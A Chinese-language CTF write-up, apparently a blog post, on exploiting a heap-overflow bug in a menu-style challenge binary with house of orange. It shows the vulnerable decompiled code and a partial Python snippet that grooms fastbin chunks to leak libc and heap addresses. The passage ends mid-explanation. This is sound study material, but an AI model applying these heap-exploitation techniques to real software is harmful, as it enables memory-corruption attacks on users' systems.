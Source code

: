 ```yaml
---
layout: post
title:  "20180606"
date:   2019-01-02 13:01:05 +0000
categories: jekyll update
---
```


# 0x00 前言

这题自己思维僵化了，看到经典菜单题就对着堆开始刚了，结果刚出个非预期解。。。刚了两天最后还因为不会重定向没拿到flag，可以说是很尴尬了。。。但是对着堆刚的确需要对堆的理解比较深刻，我这种菜鸟就刚了两天。。。最后发现好像另外一种堆利用是用fastbin attack，但是我这边是用的house of orange，前者貌似简单的多，因为只用leak一个libc就好了，heap不用leak，然而leak heap真的想了我好久。。。然而最近刚好也在学习house of orange，就当是练习了吧。。。然后破解hash我就不说了，这个比较简单大佬们的WP都有写，我这篇主要是分享非预期解的实现，以及给自己做一个总结。相关资料可以看[house of orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_orange.c)。

# 0x00 程序漏洞

不考虑预期解的VM部分，程序的漏洞有

```c
printf("Size :");
LODWORD(v0) = get_int();
size[1] = (unsigned int)v0;
if ( (unsigned int)v0 > 0x80uLL )
    return v0;
dest = malloc((unsigned int)v0);
//...
printf("Content :");
n = get_input_noterm(a1_2030C0, (unsigned __int8)(LOBYTE(size[1]) - 1));
memcpy(dest, a1_2030C0, n);
//...
```

这里有个知识点，当调用`malloc(0)`的时候，会返回一个0x20的fastbin的chunk，然后后面`get_input_noterm`的时候对这个size减了1，能写`0xff`个字节（因为强转成了byte），所以会有整形溢出导致的堆溢出

而且`show`的时候，是直接`write(1, chunk_0.buf, (unsigned __int8)chunk_0.size);`的，所以可以直接通过这个leak

# 0x01 leak

我们知道，当unsorted bin里有一个chunk的时候，可以leak出libc，而有两个chunk的时候，可以leak出libc和heap，这个具体可以看一下堆的实现，因为是个双向链表。

接着就是如何构造unsorted bin了，这题目就很蛋疼了，他只会记录最近一个chunk，而且只能free最近一个malloc的堆，这看似没法构造出unsorted bin，因为会直接跟top chunk merge掉，但是其实是有办法的，这里又涉及到一个知识点。

如果我们

```python
for x in xrange(0x2,0x8):
	malloc_until(x * 0x10, "\x00")
	free()

# allocate continuous fastbin chunks,
# this will be consolidated to unsorted bin
# when top chunk consolidate occurs.
# 此时fastbin从0x30到0x80各有一个chunk

malloc_until(0, "A" * 0x18 + p64(0x71)) # take from top chunk, prevent whole merge
malloc_until(0x80, "\x00")
# top chunk not enough, so libc will consolidate fastbin,
# and return an address that used to be chunk of size 0x30
free()
```